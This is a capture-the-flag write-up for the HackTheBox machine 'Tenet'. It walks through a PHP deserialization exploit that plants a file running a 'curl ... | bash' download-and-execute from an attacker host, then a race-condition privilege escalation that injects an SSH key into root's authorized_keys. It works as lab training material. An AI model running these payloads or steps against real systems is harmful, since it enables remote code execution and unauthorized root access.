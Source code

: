 ```yaml
---
title: Tenet Writeup [HTB]
tags: [HackTheBox, PHP deserialization]
image: /assets/images/tenet/tenet.png
published: true
banner: true
---
```


Tenet is Linux based machine that was active since January 16th of 2021 to June 12th, on this machine we will find a php file and its backup inside an Apache webserver, reviewing the code we will see that user input isn't sanitized allowing us to perform PHP desrialization to get command execution, once inside the machine we will find the password of another user inside wordpress's config file, this user can run as root a bash script that would allow us to add our own ssh public key as an authorized key for root user.

# [](#header-1)Enumeration

We start using masscan to find all the available ports and then use nmap to get more information about them.

```
masscan -e tun0 --rate=500 -p 0-65535 10.10.10.223
nmap -sC -sV -p 80,22, -Pn -o scan.txt 10.10.10.223

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 cc:ca:43:d4:4c:e7:4e:bf:26:f4:27:ea:b8:75:a8:f8 (RSA)
|   256 85:f3:ac:ba:1a:6a:03:59:e2:7e:86:47:e7:3e:3c:00 (ECDSA)
|_  256 e7:e9:9a:dd:c3:4a:2f:7a:e1:e0:5d:a2:b0:ca:44:a8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There is only two ports open, ssh and a webpage on port 80, if we check we find only the default apache page, so let's use feroxbuster and see what we can find.

![](/assets/images/tenet/feroxbuster.png)

We find a directory called worpress, so we go to see what's there.

![](/assets/images/tenet/wordpress.png)

The site says "Nothing here" and give us a link to "tenet.htb", so we add it to our hosts file, exploring the site we find a comment that calls our attention.

![](/assets/images/tenet/comment.png)

There we see that a file, "sator php", is mentioned, so we try to access to "sator.php" on different endpoints, we find it on "http://10.10.10.223/sator.php", when we acces to it we get some lines.

![](/assets/images/tenet/sator.png)

The comment also talked about a backup file, and we find it on "http://10.10.10.223/sator.php.bak".

# [](#header-1)Gaining Access

Now we have access to sator's source code:

```php
<?php

class DatabaseExport
{
        public $user_file = 'users.txt';
        public $data = '';

        public function update_db()
        {
                echo '[+] Grabbing users from text file <br>';
                $this-> data = 'Success';
        }


        public function __destruct()
        {
                file_put_contents(__DIR__ . '/' . $this ->user_file, $this->data);
                echo '[] Database updated <br>';
        //      echo 'Gotta get this working properly...';
        }
}

$input = $_GET['arepo'] ?? '';
$databaseupdate = unserialize($input);

$app = new DatabaseExport;
$app -> update_db();


?>
```

As soon as we open the file a word calls our attention, `unserialize`, and on the class there is a magic method, `__destruct`, so the conditions for php deserialization are met. PHP deserialization allows us to call a function but manipulating some values, if we check the code it grabs some data and writes it to "users.txt", if we go to "http://10.10.10.223/users.txt" we see that it exist, that means we can write to a file that is exposed through the web server, so let's write a php file that serialiazes a function that writes a reverse shell to a file with php extension.

```php
<?php

class DatabaseExport
{
        public $user_file='reaaaalylongtext.php';
        public $data='<?php system("curl 10.10.14.205:8000/shell.sh | bash")?>';
}

$out = new DatabaseExport();
echo serialize($out);
echo "\n";

?>
```

After executing it we get the string: `O:14:"DatabaseExport":2:{s:9:"user_file";s:20:"reaaaalylongtext.php";s:4:"data";s:56:"<?php system("curl 10.10.14.205:8000/shell.sh | bash")?>";}`, going back to the source code of sator, we see that the object to be deserialized is send through a GET request on arepo argument. We use burp to url encode the object and don't have any problem sending it, so we end making a request to: `http://10.10.10.223/sator.php?arepo=O%3a14%3a"DatabaseExport"%3a2%3a{s%3a9%3a"user_file"%3bs%3a20%3a"reaaaalylongtext.php"%3bs%3a4%3a"data"%3bs%3a56%3a"<%3fphp+system("curl+10.10.14.205%3a8000/shell.sh+|+bash")%3f>"%3b}`

![](/assets/images/tenet/burp.png)

As usual the command retrieves the file shell.sh from a http server on port 8000, se let's start a http server with python and then access to "http://10.10.10.223/reaaaalylongtext.php", with that we get a shell to the machine.

![](/assets/images/tenet/shell1.png)

# [](#header-1)Lateral Movement

We saw that there is a wordpress site, so let's check its config file, it's located at /var/www/html/wordpress/wp-config.php.

![](/assets/images/tenet/wpconfig.png)

The user for the database is neil, there is also a user called neil, and he uses the same password, so we can access now through SSH and get the file user.txt.

![](/assets/images/tenet/shell2.png)

# [](#header-1)Privilege Escalation

Let's check if we can run anything with sudo.

![](/assets/images/tenet/sudo.png)

We see that we can run /usr/local/bin/enableSSH.sh, with sudo, so let's see what it does.

```bash
#!/bin/bash

checkAdded() {

	sshName=$(/bin/echo $key | /usr/bin/cut -d " " -f 3)
	if [[ ! -z $(/bin/grep $sshName /root/.ssh/authorized_keys) ]]; then
		/bin/echo "Successfully added $sshName to authorized_keys file!"
	else
		/bin/echo "Error in adding $sshName to authorized_keys file!"
	fi

}

checkFile() {

	if [[ ! -s $1 ]] || [[ ! -f $1 ]]; then
		/bin/echo "Error in creating key file!"
		if [[ -f $1 ]]; then /bin/rm $1; fi
		exit 1
	fi

}

addKey() {

	tmpName=$(mktemp -u /tmp/ssh-XXXXXXXX)
	(umask 110; touch $tmpName)
	/bin/echo $key >>$tmpName
	checkFile $tmpName
	/bin/cat $tmpName >>/root/.ssh/authorized_keys
	/bin/rm $tmpName

}

key="ssh-rsa AAAAA3NzaG1yc2GAAAAGAQAAAAAAAQG+AMU8OGdqbaPP/Ls7bXOa9jNlNzNOgXiQh6ih2WOhVgGjqr2449ZtsGvSruYibxN+MQLG59VkuLNU4NNiadGry0wT7zpALGg2Gl3A0bQnN13YkL3AA8TlU/ypAuocPVZWOVmNjGlftZG9AP656hL+c9RfqvNLVcvvQvhNNbAvzaGR2XOVOVfxt+AmVLGTlSqgRXi6/NyqdzG5Nkn9L/GZGa9hcwM8+4nT43N6N31lNhx4NeGabNx33b25lqermjA+RGWMvGN8siaGskvgaSbuzaMGV9N8umLp6lNo5fqSpiGN8MQSNsXa3xXG+kplLn2W+pbzbgwTNN/w0p+Urjbl root@ubuntu"
addKey
checkAdded
```

The file has the root ssh public key harcoded, it creates a file inside tmp folder that starts with "ssh-" followed by a random chain, writes the public key on it, then sends its content to "/root/.ssh/authorized_keys" and erases the file, then it checks if "root@ubuntu" text is inside the authorized keys, if it finds it, it shows "Successfully added", otherwise says "Error in adding".
We can clearly see a kind of race condition, since it writes a file to a public location and then it uses it to write on authorized keys we can modify that file so it adds our own key, we just have to be quick, also since the script appends to authorized_keys file rather than replacing it we can't rely on the ouput message, since the root text found could be one that is on the file from before, so we just have to try to access after every execution.
First we generate a pair of ssh keys, `ssh-keygen`, then we make a one liner that echoes the public key to any file that start with ssh, something like `echo <public key> > ssh*`, the problem with that is that it creates a file called "ssh*" if there isn't any file starting with ssh, and if there is more than one file starting with ssh we get the error of ambiguos redirect, so to avoid that we always remove that file before running the echo, `rm ssh\*`, finally we just need to put that inside a while loop so those commands are running as fast as possible to catch the file that is written in /tmp: `while true; do rm ssh\* 2> /dev/null;echo "<public key>" > ssh*;done`. Now in other terminal (or in the same one if you backgrounded the last command adding "&" at the end) we run `sudo enableSSH.sh`, as I said before we can't rely on its out, so we just have to test if we can ssh as root with our ssh private key, once we can get in we are finished with the machine.

![](/assets/images/tenet/root.png)